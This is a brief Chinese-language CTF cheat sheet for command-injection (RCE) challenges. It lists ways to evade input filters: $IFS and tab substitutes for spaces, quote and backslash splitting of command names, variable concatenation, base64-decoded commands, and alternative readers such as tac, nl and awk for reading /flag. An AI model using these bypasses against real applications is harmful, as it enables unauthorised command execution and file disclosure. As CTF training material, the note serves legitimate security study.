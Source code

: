 tags:: CTF/RCE

- 空格
	- `$IFS // 注意后面不能接上字母`
	- `${IFS}`
	- `$IFS$1 //1改成其他数字貌似都行`
	- `cat<flag.php`
	- `<>`
	- `{cat,flag.php}`
	- `%20`
	- `%09&&`
- 反斜杠
	- `l\s`
- 单引号
	- `'l's`
- 双引号
	- "l"s`
- 命令拼接，内联执行
	- `a='l';b=s;$a$b`
- base64 编码
	- `echo d2hvYW1p | base64 -d`
- `ls`:
	- `dir`
- `cat`或文件名被 waf
  id:: 42eb4318-43ea-4079-963d-61943df49a8c
	- `curl file:///flag`
	- `head /flag`
	- `tail /flag`
	- `tac /flag`
	- `tac /fla?`
	- `tac /fla"g"`
	- `tac /fla'g'`
	- `awk '{print $0}' /flag`
	- `sed q100 /flag`
		- 读取前 99 行
	- `nl /fl?g`
	- `env cat /flag`
	- uniq
	- strings
	- cut
	- od
	- less
	- more
	- sort
	- hexdump
	- rev